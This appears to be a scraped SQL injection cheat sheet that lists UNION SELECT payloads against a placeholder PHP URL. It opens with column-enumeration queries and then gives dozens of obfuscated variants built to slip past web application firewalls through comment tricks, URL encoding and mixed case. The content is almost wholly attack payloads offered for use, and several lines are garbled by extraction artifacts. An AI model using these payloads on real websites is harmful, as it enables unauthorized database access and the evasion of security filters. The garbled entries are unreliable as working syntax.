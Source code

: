```http://domain.com/index.php?id=1```  
```http://domain.com/index.php?id=1+UNION+SELECT+1,2,3,4--+-```  
```http://domain.com/index.php?id=1+UNION+ALL+SELECT+1,2,3,4--+-```  
```http://domain.com/index.php?id=1+UNION+ALL+SELECT+1,2,3,4--+-```  
```http://domain.com/index.php?id=1+UNION+ALL+SELECT+null,null,null,null--+-```  
```http://domain.com/index.php?id=1 UNION(SELECT(1),(2),(3),(4))-- -```  
```http://domain.com/index.php?id=1 +Union Distinctrow Select+1,2,3,4-- -```  
```http://domain.com/index.php?id=1+UNION+ALL+SELECT+13371,13372,13373,13374--+-```  
```http://domain.com/index.php?id=1+UNION+ALL+SELECT+1%2c2%2c3%2c4--+-```  
```http://domain.com/index.php?id=1 Union Select CHAR(49),CHAR(50),CHAR(51),CHAR(52)-- -```  
```http://domain.com/index.php?id=1 %23%0AUnion%23aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa%0ASelect%23%0A1,2,3,4-- -``` (buffer by a * 300)  
 ```http://domain.com/index.php?id=Union Select * from (select 1)a join(select 2)b join(select 3)c join(select 4)d-- -```  

    - If the queries still doesn't show the vulnerable column number, it is probably the WAF blocking our queries. Let's try injection payloads which bypass it.   
    
    http://domain.com/index.php?id=1 /*!50000%55nIoN*/ /*!50000%53eLeCt*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 %55nion(%53elect 1,2,3) 1,2,3,4-- -  
    http://domain.com/index.php?id=1+union+distinctROW+select+1,2,3,4--+-  
    http://domain.com/index.php?id=1+ #?uNiOn + #?sEleCt 1,2,3,4-- -  
    http://domain.com/index.php?id=1 + #?1q %0AuNiOn all#qa%0A#%0AsEleCt 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*!%55NiOn*/ /*!%53eLEct*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 +un/**/ion+se/**/lect 1,2,3,4-- -  
    http://domain.com/index.php?id=1 +?UnI?On?+'SeL?ECT? 1,2,3,4-- -  
    http://domain.com/index.php?id=1+(UnIoN)+(SelECT)+1,2,3,4--+-  
    http://domain.com/index.php?id=1 +UnIoN/*&a=*/SeLeCT/*&a=*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 %55nion(%53elect 1,2,3,4)-- -  
    http://domain.com/index.php?id=1 /**//*!12345UNION SELECT*//**/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /**//*!50000UNION SELECT*//**/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /**/UNION/**//*!50000SELECT*//**/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*!50000UniON SeLeCt*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 union /*!50000%53elect*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*--*/union/*--*/select/*--*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 union (/*!/**/ SeleCT */ 1,2,3,4)-- -  
    http://domain.com/index.php?id=1 /*!union*/+/*!select*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /**/uNIon/**/sEleCt/**/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 +%2F**/+Union/*!select*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /**//*!union*//**//*!select*//**/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*!uNIOn*/ /*!SelECt*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /**/union/*!50000select*//**/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 0%a0union%a0select%09 1,2,3,4-- -  
    http://domain.com/index.php?id=1 %0Aunion%0Aselect%0A 1,2,3,4-- -  
    http://domain.com/index.php?id=1 uni<on all="" sel="">/*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 %252f%252a*/UNION%252f%252a /SELECT%252f%252a*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*!union*//*--*//*!all*//*--*//*!select*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C 1,2,3,4-- -
    http://domain.com/index.php?id=1 /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 +UnIoN/*&a=*/SeLeCT/*&a=*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 union+sel%0bect 1,2,3,4-- -  
    http://domain.com/index.php?id=1 +#1q%0Aunion all#qa%0A#%0Aselect 1,2,3,4-- -  
    http://domain.com/index.php?id=1 %23xyz%0AUnIOn%23xyz%0ASeLecT+ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 %23xyz%0A%55nIOn%23xyz%0A%53eLecT+ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 union(select(1),2,3)-- -  
    http://domain.com/index.php?id=1 uNioN (/*!/**/ SeleCT */ 11) 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 %0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 +union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*!f****U%0d%0aunion*/+/*!f****U%0d%0aSelEct*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 +UnIoN/*&a=*/SeLeCT/*&a=*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 +/*!UnIoN*/+/*!SeLeCt*/+ 1,2,3,4-- -  
```